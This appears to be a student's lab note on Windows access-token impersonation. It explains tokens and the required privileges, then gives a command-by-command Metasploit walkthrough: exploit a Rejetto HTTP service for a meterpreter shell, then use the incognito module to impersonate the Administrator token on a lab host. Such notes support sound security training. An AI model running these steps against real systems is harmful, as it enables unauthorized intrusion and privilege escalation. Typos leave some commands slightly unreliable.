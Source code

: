 Access Token Impersonation
#### Windows access token
- windows access tokens are a core element of the authentication process on windows and  are created and managed by the local Security Authority Subsystem service [LSASS]
- A windows access token is responsible for identifying and describing the security context of a process or thread running on a system.simple put,an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resources is accessed.
- Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identify and privileges fo the user account assicated with the thread or process.This token is then attached to the userinit.exe process,after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
#### Windows Privileges
- The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been explited to gain initial access as well as the impersonation or delegation tokens available.
- The following are the privileges that are required for a successful impersonation attack.
- - SeAssignPrimary Token: This allows a user to impersonate tokens
- - SeCreateToken: This allows a user to create an arbitrary token with administrative privileges.
- - SelmpersonatePrivilege: This allows a user to create a process under the security context of another user typically with administrative privileges.
#### The Incognito Module
- Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.
- We can use the incognito module to display a list of available tokens that we can impersonate.

### Exploit
##### Initial access
- nmap 10.2.24.20 [ this show all the services]
- browse the http service and find service [ rejetto]
- service postgresql start
- msfconsole
- search rejetto
- use 0
- show options and set everything requires
- run
- this will give us meterpreter shell
#### privilege escalation
In meterpreter session
- sysinfo [ basic info about system ]
- pgrep explorer
- migrate 3512 [ here 3512 is a process ID of explorer ]
- getprivs [ this will list all the privileges of current user,here we find SeImpersonatePrivilege]
- load incognito [ this will load the incognito module,this will fail bcz we migrate our session] 
- run [ this will again run the exploit again for initial access ]
- laod incognito
- list_tokens -u [ this will list all the user token ]
- impersonate_token "ATTACKDEFENSE\Administrator" [ here ATTACKDEFENSE\Administrator found from the previous command ]
- getprivs [ to get list of privileges and it will fail to list,so we need to migrate ]
- pgrep explorer [ for showing explorer process id ]
- migrate 2512 [ 2512 is process id ]
- getprivs [ now this will make list all the privileges ]
- getuid [ this will show user id ]

